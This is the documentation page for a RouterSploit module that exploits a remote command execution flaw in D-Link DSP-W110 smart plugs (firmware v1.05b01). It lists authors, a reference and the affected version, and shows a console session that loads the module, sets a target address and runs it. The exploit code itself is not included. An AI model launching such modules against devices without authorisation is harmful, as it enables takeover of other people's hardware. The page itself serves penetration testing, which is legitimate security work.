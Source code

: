 # D-Link DSP-W110 RCE

## Description
Module exploits D-Link DSP-W110 Remote Command Execution vulnerability which allows executing command on the operating system level.

## Authors
* Peter Adkins <peter.adkins[at]kernelpicnic.net> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://github.com/darkarnium/secpub/tree/master/D-Link/DSP-W110](https://github.com/darkarnium/secpub/tree/master/D-Link/DSP-W110)

## Vulnerable devices
* D-Link DSP-W110 (Rev A) - v1.05b01

## Usage
```
rsf > use exploits/dlink/dsp_w110_rce
rsf (D-Link DSP-W110 RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


rsf (D-Link DSP-W110 RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (D-Link DSP-W110 RCE) > run
[*] Running module...
```
